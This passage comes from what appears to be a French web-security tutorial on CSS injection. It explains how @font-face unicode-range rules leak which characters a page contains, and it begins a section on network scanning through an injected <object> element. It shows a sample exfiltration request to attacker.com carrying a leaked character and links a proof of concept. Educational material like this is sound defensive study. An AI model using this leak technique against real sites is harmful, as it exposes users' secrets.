 {% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Bien sur, ici l'attaquant va également récupérer les caractères composants les mots clés de Javascript, par exemple "var" ici.
{% endhint %}

### Automatisation de l'attaque

L'attaque étant limitée (il est seulement  possible de savoir si un caractère est présent ou non) l'exploitation par injection d'iframe effectuée pour les sélecteurs CSS n'est pas obligatoire. Afin de déterminer la présence de caractères alphanumériques (non sensibles à la casse) le partage d'un seul lien malicieux peut être suffisant.

Exemple de 5 requêtes représentant l'information "s3cr3t" récupérée :

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Un PoC minimaliste est disponible [ici](https://github.com/Sharpforce/PoC-CSS-injection/tree/master/font-face-and-unicode-descriptor).

### Scanner des services et des ressources

Si l'attaquant est également en mesure de contrôler un élément HTML tel qu'un `<object></object>`, il devient alors possible de scanner des services réseaux ainsi que des ressources HTTP. Le code vulnérable utilisé dans les prochains exemples est le suivant :&#x20;
